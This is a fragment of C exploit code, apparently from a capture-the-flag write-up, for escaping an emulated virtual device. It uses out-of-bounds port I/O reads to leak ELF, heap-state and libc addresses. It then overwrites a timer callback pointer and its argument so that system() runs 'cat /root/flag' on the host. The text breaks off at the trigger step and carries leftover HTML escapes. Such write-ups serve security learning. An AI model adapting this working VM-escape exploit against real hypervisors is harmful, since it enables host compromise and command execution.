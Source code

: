 ```
`}`

uint32_t mmio_read(uint32_t offset)`{`
    return *(uint32_t *)(MMIO_BASE + offset);
`}`

void mmio_write(uint32_t offset, uint32_t val)`{`
    *(uint32_t *)(MMIO_BASE + offset) = val;
`}`

uint32_t pmio_oob_read(uint32_t offset) `{`
    pmio_write(0, offset);
    return pmio_read(4);
`}`

void pmio_oob_write(uint32_t offset, uint32_t val)`{`
    pmio_write(0, offset);
    pmio_write(4, val);
`}`
/*
cat /root/flag 
0x20746163
0x6f6f722f
0x6c662f74
0x00006761
*/

int main(int argc, char **argv)`{`
    uint64_t elf_base, state_addr, libc_base, system_addr;
    uint32_t reg_offset = 0xaf8;
    init_io();

    mmio_write(0x10, 0x20746163);
    mmio_write(0x14, 0x6f6f722f);
    mmio_write(0x18, 0x6c662f74);
    mmio_write(0x1c, 0x00006761);
    elf_base = pmio_oob_read(0xc0c-reg_offset);
    elf_base &lt;&lt;= 32;
    elf_base |= pmio_oob_read(0xc08-reg_offset);
    elf_base -= 0x29ac8e;
    printf("elf_base : %#llxn", elf_base);

    state_addr = pmio_oob_read(0xc14-reg_offset);
    state_addr &lt;&lt;= 32;
    state_addr |= pmio_oob_read(0xc10-reg_offset);
    printf("state_addr : %#llxn", state_addr);

    libc_base = pmio_oob_read(0x7698+4-reg_offset);
    libc_base &lt;&lt;= 32;
    libc_base |= pmio_oob_read(0x7698-reg_offset);
    libc_base -= 0x3c4b78;
    printf("libc_base : %#llxn", libc_base);
    system_addr = libc_base+0x45390;

    // overwrite cb function ptr
    pmio_oob_write(0xc0c-reg_offset, (uint32_t)(system_addr&gt;&gt;32));
    pmio_oob_write(0xc08-reg_offset, (uint32_t)(system_addr&amp;0xffffffff));

    // overwrite function's argument
    pmio_oob_write(0xc14-reg_offset, (uint32_t)((state_addr+0xb08) &gt;&gt; 32));
    pmio_oob_write(0xc10-reg_offset, (uint32_t)((state_addr+0xb08) &amp; (0xffffffff)));

    // trigger timer -&gt; call-back function
```